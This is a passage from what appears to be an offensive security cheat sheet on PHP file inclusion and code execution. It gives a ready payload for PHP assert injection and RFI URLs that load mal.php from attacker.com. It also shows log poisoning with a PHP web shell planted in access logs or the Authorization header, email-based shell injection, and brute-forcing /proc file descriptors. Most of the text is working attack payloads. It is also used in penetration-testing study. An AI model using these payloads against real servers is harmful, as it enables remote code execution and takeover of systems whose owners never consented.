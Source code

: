 ```text
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
```

It's also possible to get RCE in a vulnerable "assert" statement using the system\(\) function:

```text
' and die(system("whoami")) or '
```

Be sure to URL-encode payloads before you send them.

## LFI2RCE

### Basic RFI

```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

### Via Apache log file

If the Apache server is vulnerable to LFI inside the include function you could try to access to _**/var/log/apache2/access.log**_, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and execute code using the "c" GET parameter.

Note that **if you use double quotes** for the shell instead of **simple quotes**, the double quotes will be modified for the string "_**quote;**_", **PHP will throw an error** there and **nothing else will be executed**.

This could also be done in other logs but b**e careful,** the code inside the logs could be URL encoded and this could destroy the Shell. The header **authorisation "basic"** contains "user:password" in Base64 and it is decoded inside the logs. The PHPShell could be inserted inside this header.  
Other possible log paths:

```python
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

### Via Email

Send a mail to a internal account \(user@localhost\) containing `<?php echo system($_REQUEST["cmd"]); ?>` and access to the mail _**/var/mail/USER&cmd=whoami**_

### Via /proc/\*/fd/\*

1. Upload a lot of shells \(for example : 100\)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process \(can be brute forced\) and $FD the file descriptor \(can be brute forced too\)
